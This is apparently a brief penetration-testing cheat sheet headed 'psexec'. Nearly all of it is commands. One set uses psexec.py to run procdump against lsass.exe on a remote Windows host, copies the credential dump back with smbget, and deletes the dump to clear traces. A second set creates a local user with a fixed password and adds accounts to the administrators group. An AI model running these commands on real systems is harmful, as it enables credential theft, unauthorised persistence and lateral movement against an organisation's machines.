 # psexec

## procdump lsass.exe

``` bash
psexec.py -c procdump.exe "$domain/$domuser:$userpassword@$cible" "-acceptEula -ma lsass.exe C:/windows/lsass.dmp"
smbget -w $domain -U $domuser%$userpassword smb://$cible/ADMIN$/lsass.dmp
psexec.py "$domain/$domuser:$userpassword@$cible" "del C:/windows/lsass.dmp"
```

## Commands to add a local admin

``` batch
net user /add jdupond AWNzcek2382OD
net localgroup administrators jdupond /add
net localgroup administrators CONTOSO\jdurand /add
```
